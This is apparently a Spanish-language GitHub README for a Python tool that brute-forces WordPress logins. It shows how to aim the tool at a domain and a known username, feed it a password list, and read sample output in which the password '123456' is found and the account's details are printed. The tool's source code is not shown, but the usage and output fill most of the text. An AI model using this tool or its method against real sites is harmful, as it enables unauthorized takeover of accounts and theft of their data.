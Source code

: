 # WP-Login-Brute-Force


# Se Crea una Instancia WordPressBruteForce
Se incluye el dominio a realizar la prueba y el nombre de usuario<br>
sitio_objetivo = WordPressBruteForce(wp_domain='example.com', wp_username='username')

"El nombre de usuario debe ser identificado con anterioridad,
el nombre de dominio debe incluir http:// o https://"

# Realiza un ataque de fuerza bruta
sitio_objetivo.brute_force_attack('password.txt')

"El archivo password debe contener una lista de potenciales contraseñas,
no debe llevar comas, y puede ser tan grande como se desee"

RESULTADO EJEMPLO:

Contraseña para "usuario1" Incorrecta.<br>
Autenticación -> "usuario2" | Password: "123456"<br>
Nombre de usuario: usuario2<br>
Nombre: Usuario<br>
Apellido: 2<br>
Correo electrónico: admin@example.com<br>
ID de usuario: 1<br>


Perfil: https://www.linkedin.com/in/wikitech/<br>
Blog: https://www.exploit505.blogspot.com
